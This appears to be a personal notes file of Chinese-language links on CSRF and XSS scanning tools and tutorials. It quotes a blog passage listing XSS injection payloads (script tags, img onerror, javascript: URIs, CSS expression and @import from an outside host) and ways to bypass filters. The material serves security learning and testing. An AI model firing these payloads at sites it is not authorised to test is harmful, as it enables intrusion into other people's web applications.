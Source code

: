 http://www.techweb.com.cn/news/2011-05-10/1031945.shtml  一款csrf测试工具
https://security.tencent.com/index.php/blog/msg/24 CSRF-Scanner——打造全自动检测CSRF漏洞利器
http://www.2cto.com/article/201304/200528.html XSS自动化检测 

http://netsecurity.51cto.com/art/201105/260823.htm CSRFTester:一款CSRF漏洞的测试工具



https://github.com/search?utf8=%E2%9C%93&q=+csrf+scanner&type=Repositories&ref=searchresults


liveadmin补充完毕

http://www.freebuf.com/articles/web/30960.html 使用Fiddler的X5S插件查找XSS漏洞 

http://www.freebuf.com/vuls/56848.html Dominator漏洞

http://blog.csdn.net/jiary5201314/article/details/51281707
```
    如何查找网站的XSS呢？像Acunetix WVS、IBM的AppScan、华为的WebCruiser、诺赛科技的JSky都提过了非常好的XSS扫描功能。但是光靠工具是不行的，有时候网站会做些过滤，那么就得手工绕过了。Rsnake的网站上提供了非常齐全的XSS Cheat Sheet http://ha.ckers.org/xss.html，介绍了使用各种方法向页面插入测试代码，以及如何绕过网站的简单过滤。不过貌似很久都没更新了，仅仅在IE6.0-7.0,以及Firefox2.0等浏览器上进行测试，然而现在出了Chrome，貌似安全性很强，IE都已经到9了，FF也到了5（可以下载，官方尚未公布），所以很多测试代码现在并不可用。
    那么什么地方可以插入XSS攻击代码呢？这里简单讨论HTML以及CSS的插入脚本的方法，实际上在XSS Cheat Sheet中已经完全列出：
    a)无任何过滤：直接在表单中输入<script>alert(/xss/)</script>，注意单引号的闭合。
    b)利用事件：插入图片<img src=”1.jpg” onerror=”javascript：　alert(/xss/)”>，很多网站存在。
    c)利用其他标记： <img src=”javascript：　alert(/xss/)”>，可惜IE7以后不再支持绝大多数。
    d)利用expression：很多网站都倒在这上面了，包括百度、校内，第一个XSS蠕虫（Samy蠕虫（http://namb.la/popular/tech.html））也是利用了expression，<img style="xss:expression(alert(/xss/))">。当然利用expression也会有个缺点，表达式中的代码会一直重复执行。
    e)利用@import：<style>@import url(http://xxx.xxx.xxx/xss.css); </style>，导入CSS代码，可以利用d)嵌入脚本

```

http://www.jikexueyuan.com/course/1388_2.html xxs视频

http://www.jikexueyuan.com/course/1500.html csrf视频